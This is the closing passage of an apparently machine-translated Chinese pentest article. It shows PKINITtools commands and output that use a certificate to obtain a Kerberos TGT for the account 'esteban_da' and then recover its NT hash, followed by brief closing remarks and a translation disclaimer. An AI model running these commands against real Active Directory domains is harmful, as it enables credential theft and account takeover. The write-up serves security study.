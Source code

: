     
    # python3 gettgtpkinit.py -cert-pfx hax.pfx -pfx-pass dfeiecA9SZN75zJ7P5Zs n00py.local/esteban_da esteban_da.ccache  
    2022-02-21 16:29:58,106 minikerberos INFO     Loading certificate and key from file  
    2022-02-21 16:29:58,125 minikerberos INFO     Requesting TGT  
    2022-02-21 16:29:58,148 minikerberos INFO     AS-REP encryption key (you might need this later):  
    2022-02-21 16:29:58,148 minikerberos INFO     571d3d9f833365b54bd311a906a63d95da107a8e7457e8ef01b36810daadf243  
    2022-02-21 16:29:58,151 minikerberos INFO     Saved TGT to file  
       
    # python3 getnthash.py -key 571d3d9f833365b54bd311a906a63d95da107a8e7457e8ef01b36810daadf243 n00py.local/esteban_da  
    Impacket v0.9.25.dev1+20220217.14948.9fee58da - Copyright 2021 SecureAuth Corporation  
       
    [*] Using TGT from cache  
    [*] Requesting ticket to self with PAC  
    Recovered NT Hash  
    <NT HASH>  
    

 **使用 PKINITtools 获取 TGT 和 NT 哈希**

##  结束的想法

虽然其中一些主题之前已经介绍过，但拥有可用于实现相同目标的多种技术是很有价值的。每个环境都有其独特的限制，拥有更多可用选项会增加成功的可能性。

## 译文申明

  * 文章来源为`近期阅读文章`，质量尚可的，大部分较新，但也可能有老文章。
  * `开卷有益，不求甚解`，不需面面俱到，能学到一个小技巧就赚了。
  * `译文仅供参考`，具体内容表达以及含义,  _`以原文为准`_  (译文来自自动翻译)
  * 如英文不错的，`尽量阅读原文`。(点击原文跳转)
  * `每日早读`基本自动化发布(不定期删除)，这是`一项测试`

> > > ### `最新动态: Follow Me`
>>>

>>> 微信/微博： **`red4blue`**

>>>

>>> 公众号/知乎： **`blueteams`**

>>>

>>> ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220310170418.png)  
>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220310170419.png)

  

![]()
